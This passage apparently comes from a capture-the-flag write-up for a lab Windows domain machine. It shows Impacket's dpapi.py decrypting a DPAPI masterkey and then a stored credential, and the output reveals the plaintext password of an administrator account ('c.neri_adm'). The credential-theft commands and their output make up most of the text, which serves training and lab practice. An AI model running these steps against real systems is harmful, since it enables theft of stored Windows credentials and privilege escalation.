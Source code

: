 ```console
```

We can download the credential file and masterkey to our local machine and use `dpapi.py` to extract them.

```console
$ dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a

$ dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description :
Unknown     :
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312 
```

We found a password for the user `c.neri_adm`. 

![](/assets/images/writeups/vintage/BH-NERI-delegate.png)

